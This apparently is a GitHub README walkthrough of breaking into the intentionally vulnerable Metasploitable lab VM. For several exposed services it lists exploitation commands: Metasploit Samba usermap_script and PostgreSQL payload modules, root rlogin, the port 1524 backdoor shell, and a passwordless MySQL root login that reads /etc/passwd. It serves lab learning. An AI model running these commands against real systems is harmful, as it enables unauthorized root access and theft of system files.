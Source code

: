 16. ssh -i /root/.ssh/hacker_rsa root@192.168.1.117

and you are INNNNNN

when you finish 

1. umount /mnt

for more info check this guy he helped me alot:
https://computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson4/index.html


################################################################################################
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

searched for the vulns on samba smdb and i found this exploit(exploit/multi/samba/usermap_script):

msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set RHOST 192.168.0.117
msf exploit(multi/samba/usermap_script) > run 

and we gained full access to the server. as easy as that ¯\_(ツ)_/¯ 

################################################################################################
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login

rlogin -l root 192.168.0.117

and you gain root access.
FACEPALM (－‸ლ)

################################################################################################
1524/tcp open  shell       Metasploitable root shell

telnet 192.168.0.117 1524

and you get shell access.
FACEPALMx2 (－‸ლ) (－‸ლ)

################################################################################################
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5

mysql -u root -h 192.168.0.117

MySQL [(none)]> show databases;
MySQL [(none)]> use mysql
MySQL [mysql]> create table foo(line blob);
MySQL [mysql]> insert into foo values(load_file('/etc/passwd'));
MySQL [mysql]> select * from foo;

and you will see the passwd file. 

use your imagination and yo can do more stuff
################################################################################################
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7

msf > use exploit/linux/postgres/postgres_payload
msf exploit(linux/postgres/postgres_payload) > set RHOST 192.168.0.117
msf exploit(linux/postgres/postgres_payload) > exploit
